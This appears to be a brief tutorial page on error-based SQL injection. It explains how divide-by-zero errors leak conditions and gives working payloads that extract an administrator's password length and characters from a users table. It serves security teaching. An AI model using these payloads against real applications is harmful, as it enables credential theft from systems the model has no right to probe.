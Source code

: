 ```yaml
---
title: Error-based SQL Injection
date: 2025-10-20
description: Introduce the error-based SQL injection.
weight: 2
---
```


## Principles

An application with this vulnerability may respond differently when submitting invalid or error SQL queries. For example, a such application may return `500` status code when submitting the `1/0` expression.

In this case, it is possible to perform SQL injection by trail-and-error with the response status code.

## Payload

Simply, the payload is:

```text
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END) = 'a
```

By modifying the condition, we can get more information.

```text
' AND (SELECT CASE WHEN (LENGTH(password) = 1) THEN 1/0 ELSE '' END FROM users WHERE username = 'administrator') || '
```

Then we can get the password length.

After that, we can use `SUBSTRING` function to retrieve the password fully.

```text
' AND (SELECT CASE WHEN (SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE '' END FROM users WHERE username = 'administrator') || '
```
